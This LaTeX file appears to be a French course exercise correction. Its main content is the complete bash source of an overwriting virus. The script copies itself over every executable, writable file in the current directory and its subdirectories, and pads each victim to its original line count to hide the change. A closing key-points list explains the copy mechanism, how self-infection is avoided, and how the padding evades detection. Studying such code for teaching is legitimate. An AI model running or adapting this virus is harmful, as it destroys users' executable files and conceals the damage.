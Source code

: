 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\begin{lstlisting}
#Overwritter I
for file in *; do #pour tout fichier
    if [ -d $file ]; then # si on recontre un repertoire
       cd $file #on se positionne dans ce repertoire
       for file1 in *; do #pour tout fichier du repertoire
	   if [ -x $file1 -a -w $file1 ]; then
               nbligne=$(wc -l $file | cut -d" " -f 1  )
               cp "../$0" $file1 #ecraser le fichier cible par le virus
               count=0
	       while [ $count -le $(($nbligne - 37)) ]; do
	         echo "echo \"on rajoute deslignes\"" >> $file
	         count=$(($count+1))
	       done
	       echo "$count $nbligne $file"
	   fi
       done
       cd ..
    fi
    name1=$(basename $0)
    name2=$(basename "./$file")
    echo "$name1 != $name2 ??"
    if [ "$name1" != "$name2" ]
    then
	if [ -x $file -a -w $file -a "$0" != "./$file" ]; then
            nbligne=$(wc -l $file | cut -d" " -f 1  )
            cp $0 $file  #ecraser le fichier cible par le virus
            count=0
	    while [ $count -le $(($nbligne - 37)) ]; do
		echo "echo \"on rajoute deslignes\"" >> $file
		count=$(($count+1))
	    done
	    echo "$count $nbligne $file"
	fi
    fi
done
\end{lstlisting}


\end{enumerate}

\begin{pointcle}
\begin{itemize}
    \item \texttt{cp \$0 \$file} est le mécanisme central d'un virus écrasant : il copie le virus sur la cible.
    \item \texttt{basename} permet d'extraire le nom du fichier et d'éviter l'auto-infection en comparant le nom du virus avec celui de la cible.
    \item L'\textbf{uniformité des tailles} après infection est un indicateur de compromission (IoC) : tous les fichiers infectés ont la même taille que le virus.
    \item Le \textbf{padding} (\texttt{wc -l} + ajout de lignes) permet de conserver la taille originale du fichier, rendant l'infection plus difficile à détecter.
    \item Un parcours récursif complet nécessiterait une fonction récursive avec un chemin absolu pour la copie du virus.
\end{itemize}
\end{pointcle}

\end{correction}
\end{document}
